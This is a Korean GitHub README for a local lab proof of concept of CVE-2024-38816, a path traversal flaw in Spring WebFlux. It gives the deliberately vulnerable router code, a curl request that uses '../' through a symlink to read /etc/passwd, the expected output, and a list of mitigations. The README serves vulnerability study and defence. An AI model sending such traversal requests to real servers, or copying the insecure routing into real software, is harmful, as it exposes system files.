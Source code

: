 # CVE-2024-38816 - Spring WebFlux Path Traversal PoC

> Spring WebFlux 정적 자원 라우팅 취약점을 악용한 디렉토리 경로 우회 (Path Traversal) 실습 프로젝트

---

## 📌 개요

이 프로젝트는 [CVE-2024-38816](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-38816) 취약점을 실습하고 검증하기 위한 PoC입니다.

Spring WebFlux 환경에서 `RouterFunctions.resources()` 메서드를 사용할 때, 경로 정규화 없이 사용자 입력을 그대로 파일 시스템에 매핑할 경우 **디렉토리 경로 우회(Path Traversal)**가 발생할 수 있습니다.

---

## ⚙️ 환경 정보

- **Framework**: Spring Boot 3.0.13 (WebFlux)
- **Java**: OpenJDK 17
- **Build Tool**: Gradle 7.6.1
- **Platform**: Docker 기반 멀티스테이지 빌드 사용
- **PoC 기반**: `FileSystemResource`와 `/static/**` 매핑

---

## 🛠️ 실행 방법

### 1. 프로젝트 클론 및 이동

```bash
git clone https://github.com/your-id/cve-2024-38816-poc.git
cd cve-2024-38816-poc
```

### 2. Docker 빌드 및 실행

```bash
docker build -t path-traversal-demo .
docker run --rm -p 8080:8080 path-traversal-demo
```

---

## 🧪 공격 시나리오

실행 중인 애플리케이션에 다음 요청을 보내 `/etc/passwd` 파일을 노출시킬 수 있습니다.

```bash
curl http://localhost:8080/static/link/../link/../etc/passwd
```

### 기대 결과 (Linux 환경일 경우):

```
root:x:0:0:root:/root:/bin/bash
...
```

---

## 📂 프로젝트 구조

```plaintext
.
├── Dockerfile
├── build.gradle
├── LICENSE
├── README.md
└── src/
    └── main/java/com/example/PathTraversalDemoApplication.java
```

---

## 🔐 취약 코드 설명

```java
@Bean
public RouterFunction<ServerResponse> staticRouter() {
    return RouterFunctions.resources("/static/**", new FileSystemResource("/app/static/"));
}
```

- `/static/**` 경로는 `/app/static/` 파일 시스템 루트를 그대로 참조합니다.
- 심볼릭 링크(`/static/link → /static`)와 상대경로(`../`)를 조합하면 디렉토리 탈출 가능

---

## ✅ 대응 방안

- 상대 경로 필터링 (`../` 포함 여부 체크)
- 정규화(normalization)된 경로만 허용
- classpath 내 리소스만 서빙하도록 제한
- 심볼릭 링크 제거 또는 분리된 볼륨 처리
- Spring Security 등을 활용한 경로 보호

---

## 📚 참고자료

- [Spring 공식 문서 - WebFlux Static Resources](https://docs.spring.io/spring-framework/docs/current/reference/html/web-reactive.html#webflux-static-resources)
- [CVE 공식 등록: CVE-2024-38816](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2024-38816)

---

## 📝 라이선스

본 프로젝트는 MIT 라이선스를 따릅니다.
